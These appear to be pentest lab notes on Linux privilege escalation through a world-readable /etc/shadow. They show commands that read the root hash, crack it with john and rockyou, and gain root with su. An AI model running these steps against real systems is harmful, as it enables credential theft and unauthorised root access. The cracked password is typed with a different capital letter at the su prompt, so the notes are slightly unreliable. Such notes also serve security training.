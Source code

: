 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

The /etc/shadow file contains user password hashes, and by default is not readable by any user except for root.

If we are able to read the contents of the /etc/shadow file, we might be able to crack the root user’s password hash.

If we are able to modify the /etc/shadow file, we can replace the root user’s password hash with one we know.

```bash - target
./lse.sh -i | more
```

![[Pasted image 20211230132303.png]]

1. Check the permissions of the / / etc /shadow file:

```bash - target
ls -l /etc/shadow
```

-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

-   Note that it is world readable.

2. Extract the root user’s password hash:

```bash target
head -n 1 /etc/shadow
```

```root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::```

3. Save the password hash in a file (e.g. hash.txt):

```bash - kali
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```
```

4. Crack the password hash using john :

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

password123 (?)

5. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - target
su
```

```bash - target
Password123
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)
